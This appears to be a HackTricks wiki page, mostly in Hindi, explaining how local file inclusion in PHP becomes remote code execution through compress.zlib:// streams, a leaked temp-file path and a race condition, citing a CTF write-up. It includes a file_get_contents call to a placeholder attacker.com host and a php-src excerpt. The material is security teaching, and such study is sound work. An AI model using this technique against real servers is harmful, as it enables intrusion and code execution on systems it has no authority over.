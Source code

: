 # LFI2RCE Via compress.zlib + PHP\_STREAM\_PREFER\_STUDIO + Path Disclosure

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### `compress.zlib://` और `PHP_STREAM_PREFER_STDIO`

`compress.zlib://` प्रोटोकॉल का उपयोग करके खोला गया एक फ़ाइल, `PHP_STREAM_PREFER_STDIO` ध्वज के साथ, बाद में कनेक्शन पर आने वाले डेटा को उसी फ़ाइल में लिखना जारी रख सकता है।

इसका मतलब है कि एक कॉल जैसे:
```php
file_get_contents("compress.zlib://http://attacker.com/file")
```
एक अनुरोध भेजा जाएगा जो http://attacker.com/file के लिए होगा, फिर सर्वर इस अनुरोध का उत्तर एक मान्य HTTP प्रतिक्रिया के साथ दे सकता है, कनेक्शन को खुला रख सकता है, और कुछ समय बाद अतिरिक्त डेटा भेज सकता है जो फ़ाइल में भी लिखा जाएगा।

आप इस जानकारी को php-src कोड के इस भाग में main/streams/cast.c में देख सकते हैं:
```c
/* Use a tmpfile and copy the old streams contents into it */

if (flags & PHP_STREAM_PREFER_STDIO) {
*newstream = php_stream_fopen_tmpfile();
} else {
*newstream = php_stream_temp_new();
}
```
### Race Condition to RCE

[**यह CTF**](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer) पिछले ट्रिक का उपयोग करके हल किया गया था।

हमलावर **शिकार सर्वर को हमलावर के सर्वर से एक फ़ाइल पढ़ने के लिए एक कनेक्शन खोलने** के लिए मजबूर करेगा **`compress.zlib`** प्रोटोकॉल का उपयोग करके।

**जब** यह **कनेक्शन** मौजूद है, हमलावर **अस्थायी फ़ाइल** के पथ को **बाहर निकाल** देगा (यह सर्वर द्वारा लीक किया गया है)।

**जब** **कनेक्शन** अभी भी खुला है, हमलावर **उस अस्थायी फ़ाइल को लोड करने के लिए LFI का लाभ उठाएगा** जिसे वह नियंत्रित करता है।

हालांकि, वेब सर्वर में एक जांच है जो **`<?`** वाले फ़ाइलों को लोड करने से **रोकती** है। इसलिए, हमलावर **रेस कंडीशन** का दुरुपयोग करेगा। उस कनेक्शन में जो अभी भी खुला है, **हमलावर** **PHP पेलोड भेजेगा AFTER** **वेब सर्वर** ने **जांच की** कि फ़ाइल में निषिद्ध वर्ण हैं लेकिन **इससे पहले कि यह इसकी सामग्री लोड करे**।

अधिक जानकारी के लिए रेस कंडीशन और CTF का विवरण देखें [https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer](https://balsn.tw/ctf\_writeup/20191228-hxp36c3ctf/#includer)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
